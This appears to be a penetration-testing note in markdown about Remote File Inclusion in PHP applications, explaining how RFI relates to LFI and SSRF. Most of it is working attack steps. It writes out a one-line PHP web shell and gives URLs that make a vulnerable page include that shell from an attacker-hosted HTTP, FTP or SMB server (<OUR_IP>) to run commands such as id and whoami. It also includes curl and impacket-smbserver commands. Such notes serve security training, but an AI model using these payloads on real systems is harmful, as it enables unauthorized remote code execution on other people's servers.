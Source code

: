 # Remote File Inclusion (RFI)

* \
  The vulnerable function allows the inclusion of remote URLs. This allows two main benefits:
  1. Enumerating local-only ports and web applications (i.e. SSRF)
  2. Gaining remote code execution by including a malicious script that we host
* Almost any Remote File Inclusion vulnerability is also an [local-file-inclusion-lfi.md](local-file-inclusion-lfi.md "mention") vulnerability, as any function that allows including remote URLs usually also allows including local ones
  * an LFI may not necessarily be an RFI.
    * The vulnerable function may not allow including remote URLs
    * You may only control a portion of the filename and not the entire protocol wrapper (ex: `http://`, `ftp://`, `https://`).
    * The configuration may prevent RFI altogether, as most modern web servers disable including remote files by default

```
http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php
```

### Remote Code Execution with RFI

```shell-session
 echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

* start a [Personal web server](app://obsidian.md/Personal%20web%20server)

```
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```

#### FTP

* if FTP is blocked use FTP server
  * setup ftp server [Setup FTP Server](app://obsidian.md/Personal%20web%20server#FTP%20Server)

```
http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id
```

* cli version

```shell-session
 curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```

#### SMB

*   if a windows web server is being used

    ```shell-session
    impacket-smbserver -smb2support share $(pwd)
    ```

```
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```
